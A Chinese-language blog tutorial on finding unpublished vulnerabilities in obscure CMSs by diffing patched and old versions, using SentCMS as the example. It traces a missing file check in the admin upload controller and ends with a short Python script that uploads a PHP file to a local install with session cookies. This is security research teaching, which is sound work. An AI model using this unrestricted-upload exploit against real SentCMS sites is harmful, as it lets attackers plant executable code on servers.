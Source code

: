```yaml
---
title: 寻找历史漏洞
date: 2018-05-22 09:24:36
tags:
	web安全
categories:
  - 网络安全	
---
```


## 前言
对于著名cms 一旦爆出漏洞就算是xss 一天内都能看到漏洞分析文章和写好的利用代码。
但是如果我们渗透测试的时候遇到了不怎么著名的cms  发现是历史版本 但是不能搜索到exp或者分析文章。我们就需要自己去进行补丁比较来发现漏洞


### 如何开始
我们以`SentCMS`为例子 我们可以在码云下载到 [下载地址](https://gitee.com/sentcms/sentcms)  或者使用
`git clone https://gitee.com/sentcms/sentcms`
码云作为中国的github 自然是很方便。
但是如果不是通过git进行管理 也建议把下载的旧版本和老版本使用git进行管理
因为git的版本管理和提交对比非常实用 也方便保存进度

大致的git操作是
~~~
git init  #初始化git仓库
git add * #将旧版本全部文件添加
git commit  # 作为初始提交
# 将新版本覆盖到旧版本的操作 可能是 mv -r ../new/  . 或者其他操作
# git status 可能你会想要查看一下文件差异
git add * # 将全部文件改变添加
git commit # 提交更改
# git log 查看日志
# git diff  查看差异

~~~


### 找到漏洞版本
一般来说你可以在版本更新日志里找到一些信息 很多cms都是有版本更新日志的 我们可以查看到修复了什么漏洞  但是这个cms没有发行版
 如果没有这种信息只能一个提交一个提交的去对比了
 可以使用web查看  [地址](https://gitee.com/sentcms/sentcms/commits/master)

你也可以使用
~~~
git log
~~~

我们可以找到一条看起来可能是修复漏洞的提交
![](https://box.kancloud.cn/2001e78808bd4d60f0b7355e78b09fbe_628x162.png)


### 比较差异
可以在命令行使用`git diff` 来查看 也可以选择直接在web界面查看每个提交 [web提交地址](https://gitee.com/sentcms/sentcms/commits/master)

如果不是git 在linux可以使用`diff`命令
~~~
diff -r dir1 dir2
~~~
也可以选择使用一些你喜欢的文件对比工具


### 最重要的一步 查看代码

提交行数不多 快速查看 发现疑似漏洞点
![](https://box.kancloud.cn/768d4ed85832725fdc7aea45e2699dfa_759x514.png)
可以看到对文件校验是这个提交才添加的 我们查看旧版本并下载 [地址](https://gitee.com/sentcms/sentcms/blob/341877cfb8672eed52fdc332650ee8b7ee297946/application/common/controller/Upload.php)

 这个时候阅读一下readme 可以看到
~~~
│ ├─common             COMMON公共模型，不可访问
│ │ ├─controller      公共基类目录
│ │ ├─model           模型目录
│ │ ├─validate        验证配置
│ │ ├─view            公共模板目录
│ │ ├─widget          扩展组件目录
~~~
很明显我们不能直接访问 需要通过调用
这个时候Ide就能帮助我们快速找到调用

我们在ide搜索可以找到` application/admin/controller/Upload.php` 没有进行任何过滤的调用了
~~~
namespace app\admin\controller;
use app\common\controller\Admin;

class Upload extends Admin {

	public function _empty() {
		$controller = controller('common/Upload');
		$action     = $this->request->action();
		return $controller->$action();
	}
}
~~~
[web地址](https://gitee.com/sentcms/sentcms/blob/341877cfb8672eed52fdc332650ee8b7ee297946/application/admin/controller/Upload.php)

这个cms使用了tp5框架 需要通过路由访问
我们访问
~~~
http://127.0.0.1/sentcms/admin/Upload/Upload
~~~
从报错信息可以看到已经执行到了漏洞语句位置
由代码可知 直接上传文件即可

### python编写exp
~~~
import requests
url = 'http://127.0.0.1/sentcms/admin/Upload/Upload'
files = {'phpinfo.php': open('phpinfo.txt','rb')}
# 我本地cookeie
cookie = {' remember_token':'1|8b6075452c23faa1eba56fe61b89df391811d155e7578a40114732131c49d01341d8a7e30460891e6525292631bfa038a97e3d1d9f1290b345c60a6ac0ea1484','PHPSESSID':'d4ubb72j0d9evlbktqqqct6ci2;'}

r = requests.post(url, files=file，cookies=cookie)
~~~
我们可以在`uploads\picture\20180521`找到一个，以微秒时间的md5编码为文件名的php文件
